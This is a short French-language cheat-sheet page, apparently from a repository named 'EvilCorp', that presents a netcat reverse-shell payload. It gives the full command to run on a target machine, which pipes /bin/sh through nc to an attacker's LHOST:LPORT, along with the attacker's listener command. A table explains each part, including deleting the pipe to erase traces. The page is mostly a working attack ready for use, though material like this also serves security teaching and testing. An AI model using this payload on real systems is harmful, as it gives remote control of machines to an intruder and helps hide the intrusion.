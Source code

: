 # EvilCorp

## Payloads

### Simple Netcat playload : Reverse shell
Payload en utilisant Netcat (nc) comme reverse shell.  


Commandes :  
`man mkfifo ... mkfifo - make FIFOs (named pipes)`  
`man nohup  ... nohup  - run a command immune to hangups, with output to a non-tty`  

Machine cible : 
```bash
nohup mkfifo /tmp/hago; nc LHOST LPORT 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago
```

Machine serveur `LHOST:LPORT` :
```bash
nc -lnvp LPORT
```


| Commande | Explication  |  
|----------|--------------|
|`nc LHOST LPORT 0</tmp/hago      `   | Crée un client qui envoie ce qui est recu sur le pipe `hago` |
|`nc ... \| /bin/sh >/tmp/hago    `  | Exécute avec l'interpréteur bash ce que recoit le client nc et écrit le résultat dans le pipe | 
|`2>&1`                         | Redirige la sortie erreur(2) sur l'affichage standard(1) qui est envoyer par nc au serveur. `2>&1` plutôt que `2>1`. Le second redirigie la sortie erreur dans un fichier nommé '1' | 
|`rm /tmp/hago`                 | On termine en effaçant les traces du payload |


Résumé :    
Le serveur envoie des commandes exécutées par le client et recois le résultat et les erreurs.  

[Simple Netcat Payload](cheatsheets/payloads/reverse_shell/simple_netcat.md)


